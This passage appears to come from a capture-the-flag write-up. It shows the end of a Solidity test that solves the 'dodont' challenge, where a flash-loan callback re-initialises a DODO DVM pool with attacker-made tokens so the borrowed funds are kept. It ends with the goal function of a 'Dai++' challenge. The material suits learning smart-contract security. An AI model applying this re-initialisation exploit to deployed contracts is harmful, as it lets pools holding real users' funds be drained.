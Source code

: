 ```solidity
            3000000000000000,
            address(0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01),
            1,
            1000000000000000000,
            false
        );

        WETH.transfer(address(dvm), WETH.balanceOf(address(this)));
        quoteToken.transfer(address(dvm), quoteToken.balanceOf(address(this)) / 2);
        dvm.buyShares(address(this));

        challenge = new Challenge(address(dvm));
    }

    function test_exploitdodont() public {
        dvm.flashLoan(WETH.balanceOf(address(dvm)), quoteToken.balanceOf(address(dvm)), address(this), hex"11");
        if (challenge.isSolved()) {
            console.log("solved");
        } else {
            console.log("not solved");
        }
    }

    function DVMFlashLoanCall(address a, uint256 b, uint256 c, bytes memory d) public {
        QuoteToken t1 = new QuoteToken();
        QuoteToken t2 = new QuoteToken();
        t1.transfer(address(dvm), 1_000_000 ether);
        t2.transfer(address(dvm), 1_000_000 ether);

        dvm.init(
            address(this),
            address(t1),
            address(t2),
            3000000000000000,
            address(0x5e84190a270333aCe5B9202a3F4ceBf11b81bB01),
            1,
            1000000000000000000,
            false
        );
    }
}

```

## Dai++

**Goal**

```solidity
function isSolved() external view returns (bool) {
        return IERC20(SYSTEM_CONFIGURATION.getStablecoin()).totalSupply() > 1_000_000_000_000 ether;
    }
```
